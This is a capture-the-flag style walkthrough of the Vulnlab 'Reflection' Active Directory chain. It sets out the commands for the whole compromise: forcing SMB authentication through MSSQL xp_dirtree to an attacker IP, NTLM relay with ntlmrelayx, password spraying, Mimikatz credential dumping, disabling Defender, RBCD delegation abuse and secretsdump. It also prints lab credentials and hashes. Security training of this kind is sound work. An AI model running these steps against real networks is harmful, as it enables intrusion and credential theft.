## Summary

Reflection is a medium difficulty chain created by xct(github.com/xct) and hosted on Vulnlab. It features multi-host domain exploitation through SMB and MSSQL enumeration, relay attacks, and RBCD.

Tools Used:
- nmap (https://nmap.org/)
- Impacket (https://github.com/fortra/impacket)
- Mimikatz (https://github.com/gentilkiwi/mimikatz)
- responder (https://github.com/SpiderLabs/Responder)
- BloodHound (https://github.com/SpecterOps/BloodHound)
- Hashcat (https://hashcat.net/hashcat/)
	- Not necessary, but featured in the write-up.
- xfreerdp (https://github.com/FreeRDP/FreeRDP)
	- Any RDP client will work, pass-the-hash support isn't needed for RDP in this chain.

---
## Recon
This chain provides three target hosts:
```
10.10.223.85
10.10.223.86
10.10.223.87
```
Initial reconnaissance begins with `nmap` to scan all open ports (`-p-`) while using `--min-rate=1000` to keep the discovery process from stagnating:
```shell
sudo nmap -p- --min-rate=1000 -v 10.10.247.21 -oN nmap.21-ports
```
Now that we know everything that's open, it's time to do a more detailed scan on the open ports:
```shell
ports=$(cat nmap.21-ports | awk -F/ '/open/ {b=b","$1} END {print substr(b,2)}'); sudo nmap -p $ports -v -A -min-rate=1000 -oN nmap.21 10.10.247.21
```

To streamline this process, I created a shell script that automatically executes the full port scan and, if open ports are detected, runs the targeted scan:
> [!info]- Script
> ```bash
> #!/bin/bash
> 
> # Ensure target IP is provided as an argument
> if [ "$#" -ne 1 ]; then
>   echo "Syntax: $0 {Target}";
>   exit 1;
> fi
> 
> target="$1";
> 
> # Scan All Ports
> echo "Scanning: $target";
> /usr/bin/nmap -p- -v --min-rate=1000 -oN nmap.$target-ports $target;
> 
> # Detailed Scan
> echo "Detailed scan on $target";
> ports=$(cat nmap.$target-ports | awk -F/ '/open/ {b=b","$1} END {print substr(b,2)}')
> if [ -z "$ports" ]; then
>   echo "No Open Ports on $target";
>   exit 1;
> else
>   /usr/bin/nmap -p $ports -v -A -min-rate=1000 -oN nmap.$target $target;
> fi
> echo "Scan Completed: $target;
> ```

### Nmap summary
- DC01
	- Ports 135 and 445 (SMB is open)
	- Port 3389 (RDP is open)
		- RDP identifies this machine as dc01.reflection.vl, a domain controller, so it's likely hiding port 88 (kerberos) from us.
- MS01
	- Ports 135 and 445 (SMB is open)
	- Port 1433 (MSSQL is open)
	- Port 3389 (RDP is open)
- WS01
	- Ports 135 and 445 (SMB is open)
	- Port 3389 (RDP is open)

---
## MS01
### Enumerating SMB
None of the systems allow access with null sessions over smb:



DC01 and WS01 have the Guest account disabled, but it gives access to SMB on MS01:
```shell
nxc smb ms01.reflection.vl -u 'Guest' -p '' --shares
```


Exploring MS01’s SMB server with the Guest account grants access to the `staging` share:
```shell
smbclient \\\\ms01.reflection.vl\\staging --user='Guest'%''
```


Inside, a configuration file (`staging_db.conf`) contains credentials for a database user.



These credentials don't give access to anything new over SMB, but they can be used to access MS01's mssql server:
```shell
nxc mssql ms01.reflection.vl -u 'web_staging' -p 'Washroom519' --local-auth
```


### Mssql server
Using Impacket’s MSSQL client, we connect to the `staging` database on MS01 and find a `users` table.



This table contains usernames and passwords for two development accounts, though these appear to be decoy credentials:
```
# List Tables
SELECT * FROM staging.INFORMATION_SCHEMA.TABLES;
# List Entries in Table
SELECT * FROM users;
```


They should be tested, just in case:



The credentials don't grant access to anything new, which is unsurprising.

Returning to MS01, we can attempt to execute commands through the database, but this is restricted.
```
xp_cmdshell "cmd.exe -c whoami" // Execute permissions denied
EXEC SP_CONFIGURE 'xp_cmdshell' , 1
sp_configure 'show advanced options', 1
```


The next step is to check for impersonation privileges, which, if available, could allow us to enable `xp_cmdshell`.
```
EXECUTE AS LOGIN = 'sa'
```


To capture an NTLM hash, we submit a query to prompt MS01’s MSSQL server to check a remote SMB share, ours, for files over SMB. This causes it to authenticate, which gives us a hash of the user MSSQL is running under. The first step is to start Responder:



Among the many features of MSSQL, it is possible to handle files. The known stored procedures `xp_fileexist` and `xp_dirtree` can be misused to trigger an SMB connection to a chosen target.  You can read more about this here:
https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack
```
exec master.dbo.xp_dirtree '\\10.8.3.84\share'
```


We've successfully captured the hash of `svc_web_staging`, now we can try cracking the hash with `hashcat` to recover the password.
```shell
# Identify the hash type
hashcat --identify hash.svc_staging
# Attempt to crack the hash
hashcat -a 0 -m 5600 hash.svc_staging /opt/SecLists/rockyou.txt
```



The hash doesn't crack with rockyou, so we'll have to find another way to escalate privileges.

#### Relay hash from MS01 to DC01
Since we can trigger the MS01 machine to send a hash whenever we want, we can set up a relay using Impacket’s `ntlmrelayx.py` to forward the captured credentials to DC01:
```shell
# Capture a hash and relay to DC01
sudo ntlmrelayx.py -smb2support -ip 10.8.3.84 -t \dc01.reflection.vl --keep-relaying -i
```


Send the same command as before and catch the ntlm:
```
exec master.dbo.xp_dirtree '\\10.8.3.84\share'
```


The relay attack succeeds, granting an SMB client shell on DC01.
#### SMB Enumeration of DC01 and WS01
We can access the smb session created by ntlmrelayx with netcat:
```shell
nc 127.0.0.1 11002
```

On DC01’s `prod` share we locate `prod_bd.conf`, which contains credentials for a database user:




Just as with `staging`, these credentials don't work for SMB but do for the MSSQL server on DC01:


### Mssql server on DC01
Accessing the server we find a table named `users`, just like in the staging.



Same as the staging database it has credentials, except these look legitimate.



Testing these credentials over ldap and smb shows they're valid.
```bash
nxc smb ms01.reflection.vl -u 'dorothy.rose' -p '{snip}'
nxc ldap dc01.reflection.vl -u 'dorothy.rose' -p '{snip}'
```


Before we leave we should try to elevate privileges.



Unfortunately nothing works, we we're stuck as web_prod.

Capture this servers hash as well:
```
exec master.dbo.xp_dirtree '\\10.8.3.84\share'
```


It also does not crack with rockyou.

### Domain enumeration
Since we can authenticate to DC01 we can enumerate the users with an rid bruteforce.



Save the output to a file and clean it up with a command like:
```bash
cat rid.brute | grep "TypeUser" | awk '{print $6}'|cut -d "\\" -f 2 > users.list
```
To get a nice list of users.



Next it would be a good idea to verify these users, so we'll send the user list through kerbrute. This has an added benefit of automatically doing a AS-Rep roast of any accounts that are vulnerable to it.



Since the credentials work for ldap we can enumerate the domain with Bloodhound:
```bash
nxc ldap dc01.reflection.vl -u 'dorothy.rose' -p '{snip}' --dns-server 10.10.223.85 --bloodhound --collection all
```


Checking the Bloodhound output we find that abbie.smith has GenericAll over `MS01` and `servers@reflection.vl`.



We can use netexec's laps module to check if we can read any passwords stored inside.
```bash
nxc ldap dc01.reflection.vl -u 'abbie.smith' -p '{snip}' -M laps
```


We get the password for an unknown user on MS01$

Lets do a spray to see if we can get a hit:
```bash
nxc smb ms01.reflection.vl -u users.list -p '{snip}' --continue-on-success
```


It occurs to me that perhaps the reason we couldn't see the user is that it's for a local account, so lets try another spray with `--local-auth`:
```bash
nxc smb ms01.reflection.vl -u users.list -p '{snip}' --local-auth
```


We've got the local administrator password! The next step is to login via rdp.

---
## RDP on MS01
We can use freerdp to get a shell on MS01:
```shell
xfreerdp /u:administrator /p:'{snip}' /v:ms01.reflection.vl
```


And collect the first flag on the desktop.

### Credential dumping
Since we're already the administrator user it's time to copy over mimikatz and start dumping creds:



Remember to disable defender!
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Elevate to system:
```
token::elevate
```


Using `Vault::List` we can see that there's a stored password for georgia.price:



We can dump this with:
```
vault::creds /patch
```


We should also grab the hashes with `sekurlsa::logonpasswords`:




Now we've got the nthashes for svc_web_staging and MS01$, and the password for `georgia.price`. We can verify that they're valid with `netexec`:



---
## Lateral movement to WS01
Bloodhound reveals that `georgia.price` has `GenericAll` privileges over the `Workstations` group and WS01:



With `GenericAll` privileges, we can set up Resource-Based Constrained Delegation (RBCD) from MS01 to WS01, allowing us to impersonate higher-privileged accounts on WS01.
First, use rbcd.py to delegate:
```shell
rbcd.py -delegate-from 'MS01$' -delegate-to 'WS01$' -action 'write' 'reflection.vl/georgia.price:DBl+5MPkpJg5id'
```


Next, get a ticket with getST.py:



Export the ticket, and then we can use secretsdump.py to dump hashes and credentials from the machine:
```shell
secretsdump.py -k -no-pass ws01.reflection.vl
```


We've gotten the password for `Rhys.Garner`, and the nthash for the computer account in addition to the rest of the dump.

The local administrator isn't allowed to login to WS01, at least not using a hash:



So we're going to login as rhys.garner:
```shell
xfreerdp /u:rhys.garner /p:'{password}' /v:ws01.reflection.vl
```


And once in, we can claim the second flag!

---
## Lateral movement to DC01
We've gotten a couple new passwords since we've last done a spray, so lets do one with `rhys.garner` and `georgia.price` passwords:
```shell
nxc ldap dc01.reflection.vl -u users.list -p pass.list --continue-on-success
```


We get a hit for `dom_rgarner` using `rhys.garner`'s password, which based on the name is a second account for administration purposes. According to bloodhound `dom_rgarner` is a domain admin:



With this account we can RDP into DC01:
```shell
xfreerdp /u:dom_rgarner /p:'{snip}' /v:dc01.reflection.vl
```
Once in we can head over to C:/Users/Administrator and gain access to the folder:



Then head over to the desktop and get the final flag:



This completes the chain. If you wanted to gain system level access to this machine as well you could use SharpEfsPotato. 

---
## Revisiting MS01 Foothold
An alternative approach to gaining a foothold on MS01 involves RBCD without needing a machine account, using an SPN-less user instead.
You can find guidance on this method here:
https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd#rbcd-on-spn-less-users
First we need to get a ticket. For this method, we’ll need to pass an NTLM hash instead of a plaintext password. I'll be using `pypykatz`, but there are plenty of nthash generators online if you don't have it installed.



Once we have the ticket we need the session key:



Take the session key and use `smbpasswd.py` to change the password hash of the user to match the value of the session key:
```shell
# Change password hash with smbpasswd.py to match the session key 
smbpasswd.py reflection.vl/user:password@ms01 -newpass "{session key}"
```


Enable delegation for the user:
```shell
rbcd.py -delegate-from 'abbie.smith' -delegate-to 'MS01$' -action 'write' 'reflection.vl'/'abbie.smith' -hashes :dceda2f9553bfc80924cd810785db9e1
```


Set the cache and get the administrator ticket:
```shell
KRB5CCNAME='abbie.smith.ccache'; getST.py -u2u -impersonate "administrator" -spn "cifs/ms01.reflection.vl" -k -no-pass 'reflection.vl'/'abbie.smith'
```


With that saved, we can export it and use `secretsdump.py` to get the local administrator hash for the foothold:
```shell
secretsdump.py -k -no-pass ms01.reflection.vl
```


You can't RDP into MS01 as administrator with a hash, but you can use `wmiexec.py` to get a shell. From there, the steps are the same. Disable antivirus, use mimikatz to find `georgia.price` password.


